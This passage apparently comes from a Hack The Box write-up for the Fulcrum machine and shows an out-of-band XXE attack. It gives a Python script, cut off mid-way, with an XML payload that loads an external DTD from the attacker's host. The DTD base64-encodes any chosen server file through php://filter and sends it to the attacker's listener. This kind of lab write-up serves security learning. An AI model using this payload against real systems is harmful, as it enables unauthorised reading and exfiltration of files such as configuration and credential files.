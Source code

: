 Basically, this makes the website retrieve an external DTD, which loads the filename I want, and then sends it to another port:

![](../../../.gitbook/assets/htb-fulcrum-image-5.png)

This can be scripted using some Python `sockets` and `requests`.

Firstly, create the file `dtd.xml` with the filename I want to read. Afterwards, use a thread to open a port 8000 and listen for connections indefinitely. 

Then, just retrieve the output from the socket, parsed using regex and decoded from `base64`. This took a bit longer to code than I would like, but it felt great making it work with sockets. 

```python
import socket
import base64
import re
import time
import random

HOST = "10.10.14.19"
PORT = 5565
TARGET_HOST = "10.129.136.254"
TARGET_PORT = 56423

# 4 seconds timeout, else file not found.
socket.timeout(4)

xxe = """
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.19/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

"""

request = f"""POST / HTTP/1.1
Host: {TARGET_HOST}:{TARGET_PORT}
Content-Length: {len(xxe)}
"""

final_req = (request + xxe).replace("\n","\r\n")
final_req = final_req.encode()

while True:
	filename = input("Enter file to read: ")

	dtd = f"""<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource={filename}">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.19:{PORT}/dtd.xml?%data;'>">"""

	dtd_file = open("dtd.xml", "w")
```